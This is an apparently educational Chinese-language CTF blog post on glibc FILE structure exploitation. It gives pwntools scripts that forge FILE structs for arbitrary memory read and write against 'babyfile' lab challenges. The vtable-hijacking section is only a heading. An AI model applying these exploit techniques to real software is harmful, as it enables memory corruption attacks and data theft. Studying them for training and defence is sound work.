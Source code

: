 ```yaml
---
layout: post
tags: [pwn]
title: "File Struct 利用手法"
author: wsxk
date: 2025-4-21
comments: true
---
```


- [1. 任意地址读](#1-任意地址读)
  - [1.1 变体: 利用stdout来任意地址读](#11-变体-利用stdout来任意地址读)
- [2. 任意地址写](#2-任意地址写)
  - [2.1 变体：利用stdin任意地址写](#21-变体利用stdin任意地址写)
- [3. 劫持vtable](#3-劫持vtable)


# 1. 任意地址读<br>
前提条件:**能够控制file_struct结构体,且能调用fwrite函数**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'

binary_path = "./babyfile_level1"
binary_path = "/challenge/babyfile_level1"
p = process(binary_path)
p.recvuntil(b"The flag has been read into memory and is located at ")
secret = int(p.recvline().strip(b"\n"),16)
log.success(f"secret: {hex(secret)}")

#利用部分，可以借助pwntools工具的强大库函数帮助我们生成想要的结构体，十分方便
file = FileStructure()
payload = file.write(secret,0x30)  
print(file)
"""
{ flags: 0x800
 _IO_read_ptr: 0x0
 _IO_read_end: 0x4040e0
 _IO_read_base: 0x0
 _IO_write_base: 0x4040e0
 _IO_write_ptr: 0x404110
 _IO_write_end: 0x0
 _IO_buf_base: 0x0
 _IO_buf_end: 0x0
 _IO_save_base: 0x0
 _IO_backup_base: 0x0
 _IO_save_end: 0x0
 markers: 0x0
 chain: 0x0
 fileno: 0x1
 _flags2: 0x0
 _old_offset: 0xffffffffffffffff
 _cur_column: 0x0
 _vtable_offset: 0x0
 _shortbuf: 0x0
 unknown1: 0x0
 _lock: 0x0
 _offset: 0xffffffffffffffff
 _codecvt: 0x0
 _wide_data: 0x0
 unknown2: 0x0
 vtable: 0x0
"""
p.send(payload)
p.interactive()
```
## 1.1 变体: 利用stdout来任意地址读<br>
前提条件：**能够修改stdout结构体，知道要泄露的地址，调用puts/printf等函数**<br>
核心思路还是没变。<br>
```
1. 调用puts/printf等函数时，发现缓冲区已满，打印缓冲区
```

```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal = ["tmux","splitw","-h"]

#binary_path = "./babyfile_level5"
binary_path = "/challenge/babyfile_level5"

p = process(binary_path)
p.recvuntil(b"The flag has been read into memory and is located at ")
secret_addr = int(p.recvline().strip(b"\n"),16)
log.success(f"secret_addr: {hex(secret_addr)}")

p.recvuntil(b"Now reading from stdin directly to the FILE struct.\n")
fp = FileStructure()
payload = fp.write(secret_addr,0x30)
p.send(payload)

p.interactive()
```


# 2. 任意地址写<br>
前提条件:**能够控制file_struct结构体,且能调用fread函数**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal = ["tmux","splitw","-h"]

binary_path = "./babyfile_level2"
#binary_path = "/challenge/babyfile_level2"

p = process(binary_path)
p.recvuntil(b"Now reading from stdin directly to the FILE struct.\n")
#gdb.attach(p,"b *0x401A61")
#pause()

# file struct construction
file = FileStructure()
payload = file.read(0x4041F8,0x101) # 注意，read设置的buffer_size，必须大于fread读取的字节数；我猜测这么做的原因是，如果file_buf太小，就没必要拷贝到file_buf中了，直接拷贝到目标buffere中即可
print(file)
"""
{ flags: 0x0
 _IO_read_ptr: 0x0
 _IO_read_end: 0x0
 _IO_read_base: 0x0
 _IO_write_base: 0x0
 _IO_write_ptr: 0x0
 _IO_write_end: 0x0
 _IO_buf_base: 0x4041f8
 _IO_buf_end: 0x4041fc
 _IO_save_base: 0x0
 _IO_backup_base: 0x0
 _IO_save_end: 0x0
 markers: 0x0
 chain: 0x0
 fileno: 0x0
 _flags2: 0x0
 _old_offset: 0xffffffffffffffff
 _cur_column: 0x0
 _vtable_offset: 0x0
 _shortbuf: 0x0
 unknown1: 0x0
 _lock: 0x0
 _offset: 0xffffffffffffffff
 _codecvt: 0x0
 _wide_data: 0x0
 unknown2: 0x0
 vtable: 0x0}
"""
print(payload)
p.send(payload)

p.recvuntil(b"Here is the contents of the FILE structure.")
p.send(b"a"*0x100)
p.interactive()
```
## 2.1 变体：利用stdin任意地址写<br>
前提条件：**能够修改stdin结构体，知道要泄露的地址，调用scanf等函数**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal = ["tmux","splitw","-h"]

#binary_path = "./babyfile_level6"
binary_path = "/challenge/babyfile_level6"

p = process(binary_path)
#gdb.attach(p,"b *0x401A3F")

p.recvuntil(b"Now reading from stdin directly to the FILE struct.\n")
fp = FileStructure()
payload = fp.read(0x4041F8,0x30)
p.send(payload)

p.recvuntil(b"Please log in.")
p.send(b"\x01\n")
p.interactive()
```

# 3. 劫持vtable<br>









<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

